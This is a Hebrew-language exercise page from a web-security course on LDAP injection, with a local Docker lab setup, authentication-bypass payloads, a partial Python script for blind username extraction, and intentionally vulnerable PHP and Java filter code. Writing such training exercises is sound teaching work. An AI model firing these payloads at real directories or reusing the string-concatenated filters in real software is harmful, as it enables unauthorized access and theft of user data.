

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/3 - הזרקות מתקדמות/3.4 - הזרקת LDAP/3.4 - הזרקת LDAP - תרגיל/index.html · generator: mkdocs

# הinjection LDAP - תרגיל

## תרגיל 1 - bypass אותנטיקציה

### משימות

1. הקימו סביבת תרגול מקומית עם OpenLDAP ואפליקציית PHP:

```bash
# Setting up OpenLDAP with Docker
docker run -d --name openldap \
    -e LDAP_ORGANISATION="TestOrg" \
    -e LDAP_DOMAIN="test.local" \
    -e LDAP_ADMIN_PASSWORD="admin" \
    -p 389:389 \
    osixia/openldap
```

2. צרו אפליקציית PHP פשוטה עם טופס התחברות שמשתמשת ב-LDAP
3. נסו את הפיילואדים הבאים בשדה שם המשתמש:

```
*
admin)(|(&
admin)(&))
*)(&
admin)%00
```

4. תעדו אילו payloads הצליחו ולמה

## תרגיל 2 - extraction עיוור

### משימות

1. בהינתן אפליקציה שמחזירה רק "Valid user" או "Invalid user":
2. כתבו סקריפט Python שמחלץ שמות משתמשים:

```python
import requests
import string

url = "http://target/search.php"
charset = string.ascii_lowercase + string.digits

def check(payload):
    response = requests.post(url, data={"username": payload, "password": "x"})
    return "Valid" in response.text

# Complete: extract the username character by character
username = ""
# ...
```

3. הרחיבו את הסקריפט לextraction תכונות נוספות (מייל, מספר טלפון, שם מלא)
4. חלצו את רשימת הקבוצות שהמשתמש חבר בהן

## תרגיל 3 - ניתוח קוד פגיע

### משימות

בהינתן קטעי הקוד הבאים, מצאו את החולשה וכתבו payload לexploit:

### קוד 1 - PHP

```php
$filter = "(cn=" . $_GET['name'] . ")";
$result = ldap_search($ldap, $base_dn, $filter);
```

### קוד 2 - Java

```java
String filter = "(&(department=" + dept + ")(title=" + title + "))";
NamingEnumeration results = ctx.search(baseDN, filter, controls);
```
